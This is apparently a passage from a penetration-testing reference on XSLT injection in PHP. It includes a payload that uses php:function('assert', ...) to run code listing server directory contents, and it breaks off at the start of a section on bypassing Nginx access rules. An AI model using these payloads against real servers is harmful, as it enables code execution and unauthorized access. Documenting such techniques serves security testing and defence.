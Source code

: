 Copy

```
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body style="font-family:Arial;font-size:12pt;background-color:#EEEEEE">
<xsl:copy-of name="asd" select="php:function('assert','var_dump(scandir(chr(46).chr(47)));')" />
<br />
</body>
</html>
```

Execute code using other frameworks in the PDF
## **Access PHP static functions from classes**

The following function will call the static method `stringToUrl` of the class XSL:

Copy

```
<!--- More complex test to call php class function-->
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl"
version="1.0">
<xsl:output method="html" version="XHTML 1.0" encoding="UTF-8" indent="yes" />
<xsl:template match="root">
<html>
<!-- We use the php suffix to call the static class function stringToUrl() -->
<xsl:value-of select="php:function('XSL::stringToUrl','une_superstring-àÔ|modifier')" />
<!-- Output: 'une_superstring ao modifier' -->
</html>
</xsl:template>
</xsl:stylesheet>
```


# <font color="red">Proxy or WAF Protection Bypass</font>
## Bypass Nginx ACL Rules with Pathname Manipulation

Techniques [from this research](https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies).

Nginx rule example:


```
location = /admin {
    deny all;
}

location = /admin/ {
    deny all;
}
```

